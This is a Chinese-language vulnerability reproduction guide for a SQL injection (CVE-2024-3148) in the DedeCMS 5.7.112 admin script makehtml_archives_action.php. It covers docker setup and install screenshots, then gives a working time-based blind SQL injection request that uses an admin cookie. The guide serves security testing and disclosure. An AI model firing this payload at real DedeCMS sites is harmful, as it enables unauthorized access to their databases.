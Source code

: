 # CVE-2024-3148 DedeCms makehtml_archives_action sql注入漏洞

DedeCMS（也称为织梦CMS）是一款基于PHP+MySQL的开源内容管理系统。

在 DedeCMS 5.7.112 中发现一个被归类为严重的漏洞。此漏洞会影响某些未知文件dede/makehtml_archives_action.php的处理。操作导致 sql 注入。攻击可能是远程发起的。该漏洞已向公众披露并可能被使用。

官网地址https://www.dedecms.com/



参考链接：

- https://blog.csdn.net/shelter1234567/article/details/137461436



## 漏洞环境

执行如下命令启动一个DedeCms-v5.7.112-web服务器：

```
docker compose up 
```



服务启动后，可访问`http://your-ip:80/`跳转到DedeCms安装向导页面

![image-20240407141035299](./1.png)

点击继续安装

![image-20240407141203597](./2.png)

安装完成

![image-20240407141314706](./3.png)

## 漏洞复现

使用账号密码登录网站后台,获取后台cookie

![image-20240407141455435](./4.png)

发送payload

```
GET /dede/makehtml_archives_action.php?typeid=1+AND+(SELECT+1+FROM+(SELECT(SLEEP(3)))a) HTTP/1.1
Host: 10.66.64.106
Cookie: menuitems=[yourcookie]
Connection: close


```

![image-20240407141717969](./5.png)

![image-20240407141814960](./6.png)